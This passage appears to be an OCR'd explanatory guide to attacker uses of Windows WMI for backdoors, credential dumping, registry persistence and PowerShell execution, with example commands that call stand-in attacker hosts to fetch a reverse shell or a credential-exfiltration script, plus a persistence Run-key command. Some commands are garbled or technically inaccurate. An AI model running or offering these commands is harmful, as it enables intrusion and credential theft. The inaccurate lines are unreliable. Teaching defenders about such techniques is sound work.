 **What it is**: Attackers use WMI to create network connections that serve as backdoors for remote access.

**How it works**:

-   WMI can be used to initiate network connections, allowing attackers to maintain control of the compromised system or exfiltrate data.

**Example**:

-   An attacker uses WMI to invoke commands that create network connections to attacker-controlled servers.
-   **Command**:
-   `Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c start  [http://attacker-controlled-url.com/reverse-shell.ex](http://attacker-controlled-url.com/reverse-shell.exe)e`

# WMI for Credential Dumping (Lateral Movement)

**What it is**: Attackers use WMI to gather and exfiltrate credentials or password hashes from compromised systems to facilitate lateral movement.

**How it works**:

-   WMI scripts are used to extract credentials, password hashes, or other sensitive data from systems.

**Example**:

-   An attacker uses WMI to dump credentials from the Windows SAM or LSASS memory.
-   **Command**:
-   `Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -Command Invoke-WebRequest 'http://malicious-url.com/exfiltrate-credentials.ps1' -OutFile 'C:\Windows\Temp\credentials.ps1'"`

# WMI to Modify Registry Keys (Persistence)

**What it is**: Attackers use WMI to modify registry keys to execute malicious payloads on system startup.

**How it works**:

-   WMI can be used to modify the Windows registry, ensuring malicious programs are run when the system boots up.

**Example**:

-   An attacker modifies a registry key via WMI to run a malicious application on system startup.
-   **Commannd:**
-   `Invoke-WmiMethod -Class Win32_Registry -Name Create -ArgumentList "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MyMaliciousApp", "C:\Windows\Temp\payload.exe"`

# WMI for Triggering Malicious PowerShell Scripts

**What it is**: Attackers use WMI to remotely execute malicious PowerShell scripts, which are often used to download additional tools or payloads.
